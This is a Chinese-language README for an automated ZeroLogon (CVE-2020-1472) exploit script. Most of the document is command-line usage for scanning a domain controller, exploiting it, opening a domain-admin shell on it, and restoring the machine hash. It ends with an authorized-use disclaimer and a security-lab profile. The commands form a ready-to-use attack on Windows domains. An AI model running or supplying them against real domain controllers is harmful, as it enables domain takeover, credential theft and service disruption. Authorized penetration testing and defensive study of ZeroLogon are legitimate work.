




# Auto ZeroLogon script

## 简介与使用

Zerologon自动化脚本，使用方式如下：

```
1.扫描
python AutoZerologon.py dc_ip -scan
```



```
2.漏洞利用
python AutoZerologon.py dc_ip -exp
python AutoZerologon.py dc_ip -exp -user domain_admins
利用完成后自动恢复域控机器hash，默认使用Administrator，可-user指定域管，假如Administrator不存在则会连接ldap查询未禁用的域管账号进行恢复
```



```
3.登录域控
python AutoZerologon.py dc_ip -shell
python AutoZerologon.py dc_ip -shell -user domain_admins
默认使用Administrator，可-user指定域管，假如Administrator不存在则会连接ldap查询未禁用的域管账号进行登录
```



```
4.手动恢复域控机器hash，防止利用过程中程序中断
python AutoZerologon.py dc_ip -recovery -user domain_admins -hashes aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b
```



其他注意事项：

5.假如smb没有识别出机器名及域名，则需指定-dcname、-domain

**6.若在exp利用中断，及时使用-recovery恢复域控机器hash，以免造成脱域！！！**

## 参考链接
https://github.com/dirkjanm/CVE-2020-1472

https://github.com/SecureAuthCorp/impacket

## 免责声明

本工具仅面向**合法授权**的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建靶机环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。**请勿对非授权目标进行扫描和攻击。**

**如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，作者将不承担任何法律及连带责任。**

在安装并使用本工具前，请您**务必审慎阅读、充分理解各条款内容**，限制、免责条款或者其他涉及您重大权益的条款可能会以加粗、加下划线等形式提示您重点注意。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。

# 安恒-星火实验室

<h1 align="center">
  
  <br>
</h1>
专注于实战攻防与研究，研究涉及实战攻防、威胁情报、攻击模拟与威胁分析等，团队成员均来自行业具备多年实战攻防经验的红队、蓝队和紫队专家。本着以攻促防的核心理念，通过落地 ATT&CK 攻防全景知识库，全面构建实战化、常态化、体系化的企业安全建设与运营。
